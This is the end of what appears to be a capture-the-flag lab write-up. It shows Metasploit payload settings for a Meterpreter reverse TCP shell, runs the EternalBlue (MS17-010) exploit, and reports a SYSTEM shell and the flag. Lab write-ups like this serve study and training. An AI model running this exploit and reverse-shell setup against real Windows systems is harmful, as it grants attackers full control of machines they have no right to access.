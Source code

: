 
Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.66.67.154     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

![image](https://user-images.githubusercontent.com/67879936/223118896-d55c7761-22de-4fd2-b5e5-67bff81e6f26.png)

![image](https://user-images.githubusercontent.com/67879936/223119019-6bd73763-c306-4012-b412-849a689360ba.png)

Boom!!! We got a shell as ```nt Authority\System```. Found the flag in ```C:\Users\Administrator.GNBUSCA-W054\Desktop```.

![image](https://user-images.githubusercontent.com/67879936/223119865-417dab1f-c803-48fc-ab8a-d0b79275cb9f.png)

That will be all for today
<br> <br>
[Back To Home](../../index.md)

















